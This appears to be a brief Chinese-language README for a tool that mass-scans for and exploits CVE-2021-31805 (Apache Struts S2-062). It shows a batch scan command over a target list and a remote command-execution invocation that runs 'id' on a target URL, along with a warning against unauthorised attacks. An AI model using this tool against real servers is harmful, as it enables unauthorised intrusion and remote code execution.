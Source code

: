 # S2-062
CVE-2021-31805/s2-062 批量扫描及漏洞利用

请遵守法律法规，禁止未授权攻击网站系统

# 使用说明
## 批量扫描模式
```
python3 CVE-2021-31805.py -m scan -f 123.txt
```
![scan_mode](scan.jpg)

## 命令执行模式
```
python3 CVE-2021-31805.py -u https://xxx.xxx.com:8080 -c id
```
![rce_mode](rce.jpg)
